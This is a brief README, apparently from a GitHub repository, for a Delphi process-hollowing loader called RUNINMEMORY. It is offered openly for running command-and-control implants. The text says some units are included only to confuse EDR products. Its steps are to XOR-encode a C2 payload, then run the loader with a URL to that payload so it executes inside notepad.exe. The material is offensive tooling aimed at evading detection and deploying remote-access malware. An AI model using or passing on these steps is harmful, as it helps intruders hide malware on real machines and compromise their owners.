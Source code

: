 # delphiprocesshollowing
DelphiProcessHollowing

Some Units are added only to confuse EDRs

1. compile it (64bit!)
2. create the BINARY implant with your C2
3. XOR you .BIN payload with the "a" char (or modify pascal source to change it!)
4. run RUNINMEMORY.exe url_to_XORED_binary c:\windows\system32\notepad.exe

normally used to run C2 implants
